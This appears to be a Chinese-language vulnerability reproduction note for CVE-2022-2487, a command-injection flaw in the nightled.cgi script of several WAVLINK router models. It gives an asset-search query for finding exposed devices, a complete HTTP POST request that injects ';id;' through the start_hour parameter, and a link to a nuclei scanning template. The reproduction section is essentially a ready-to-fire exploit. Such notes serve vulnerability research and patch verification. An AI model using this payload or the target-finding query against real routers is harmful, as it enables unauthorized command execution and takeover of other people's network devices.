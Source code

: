 # WAVLINK nightled.cgi命令执行漏洞（CVE-2022-2487）

# 一、漏洞简介
WAVLINK是中国睿因科技（WAVLINK）公司开发的一款路由器，该系统nightled.cgi文件存在命令执行漏洞，攻击者可通过该漏洞获取服务器权限。包含型号WN530HG4、WN531G3、WN572HG3、WN535G3、WN575A4等。

# 二、影响版本
+ wavlink 路由器

# 三、资产测绘
+ hunter`web.body="firstFlage"`
+ 特征

![1703226837131-abc67852-1626-482a-982b-2f8f69837f2c.png](./img/Rx--2uKs5UATt6Ld/1703226837131-abc67852-1626-482a-982b-2f8f69837f2c-514022.png)

# 四、漏洞复现
```java
POST /cgi-bin/nightled.cgi HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

page=night_led&start_hour=;id;
```

![1703227926824-33cc9c9a-e440-48db-872e-8e7dfe23d5ed.png](./img/Rx--2uKs5UATt6Ld/1703227926824-33cc9c9a-e440-48db-872e-8e7dfe23d5ed-728776.png)

nuclei脚本

[wanlink-router-nightled-cgi-rce.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222231412-9b8a48ea-e19e-4635-93d4-e8e9113dabfa.yaml)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gt5g5cgio0f29oaf>